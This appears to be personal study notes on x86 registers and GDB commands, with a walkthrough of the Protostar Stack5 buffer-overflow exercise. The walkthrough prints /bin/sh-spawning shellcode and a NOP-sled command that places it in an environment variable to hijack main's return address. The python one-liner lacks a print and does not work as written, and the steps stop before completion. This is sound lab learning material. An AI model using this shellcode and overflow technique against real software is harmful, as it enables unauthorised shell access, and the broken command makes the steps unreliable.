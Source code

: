 # Note ASM86

* [EIP](http://www.c-jump.com/CIS77/ASM/Instructions/I77_0040_instruction_pointer.htm): Instruction Pointer Register 
* [ESP](http://www.c-jump.com/CIS77/ASM/Stack/S77_0040_esp_register.htm): The ESP register serves as an indirect memory operand pointing to the top of the stack at any time.
* EBP: ebp is/was for a stack frame so that when you entered a function ebp could get a copy of esp at that point, everything on the stack before that happens, return address, passed in parameters, etc and things that are global for that function (local variables) will now be a static distance away from the stack frame pointer for the duration of the function. esp is now free to wander about as the compiler desires and can be used when nesting to other functions (each needs to preserve the ebp naturally). 

# Memo GDB

* [https://cs.brown.edu/courses/cs033/docs/guides/gdb.pdf](https://cs.brown.edu/courses/cs033/docs/guides/gdb.pdf)


Lancer `gdb`:

	gdb <program>

Set a breakpoint at the start of `main`:

	b[reak] main

Set a breakpoint to a given address:

	b[reak] *0x123456789

Remove a breakpoint:

	d[elete] <breakpoint number>

Run the program:

	r[un] [arg1 [arg2] ...]

Set the display:

	display/3i $eip

Unset the display:

	undisplay/3i $eip

Step into (next instruction): 

	si

> Execute one machine instruction, then stop and return to the debugger. 

Skip a function call:

	ni

> Execute one machine instruction, but if it is a function call, proceed until the function returns. 

Get out of a function:

	fin[ish]

Print a value:

	print main

# Stack5

## Présentation

[https://web.archive.org/web/20170419023355/https://exploit-exercises.com/protostar/stack5/](https://web.archive.org/web/20170419023355/https://exploit-exercises.com/protostar/stack5/)

	0x080483c4 <main+0>:	push   ebp
	0x080483c5 <main+1>:	mov    ebp,esp
	0x080483c7 <main+3>:	and    esp,0xfffffff0
	0x080483ca <main+6>:	sub    esp,0x50
	0x080483cd <main+9>:	lea    eax,[esp+0x10]
	0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
	0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
	0x080483d9 <main+21>:	leave  
	0x080483da <main+22>:	ret  

## Représentation

![](stack1.png)

![](stack2.png)

![](stack3.png)

![](stack4.png)

![](stack5.png)

![](stack6.png)

## Exploitation

Sur [ce site](http://shell-storm.org/shellcode/files/shellcode-827.php)
, on trouve un exploit:

	\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

Il faut:
* injecter le code de l'exploit dans le processus.
* modifier la case mémoire qui contient l'adresse de retour de la fonction `main()`. Il faut y injecter l'adresse du code qui contient l'exploit.

La case mémoire qui contient l'adresse de retour de la fonction `main()` se situe à `x + 0x44` octets de la variable `buffer`.

Pour injecter le code de l'exploit dans le processus, nous passons par l'intermédiaire d'une variable d'environnement.

Pour créer la variable d'environnement:

	python -c '"\x90"*(44+x) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"' > file
	export MA_VARIABLE=$(cat file)

Avec `x` = 4, 8 ou 12.

> * Il faut relancer le programme après création/modification de la variable d'environnement.
> * "\x90" est le code de l'instruction `NOP`.

Pour connaître l'adresse du code qui contient l'exploit:

	x/1000s $esp



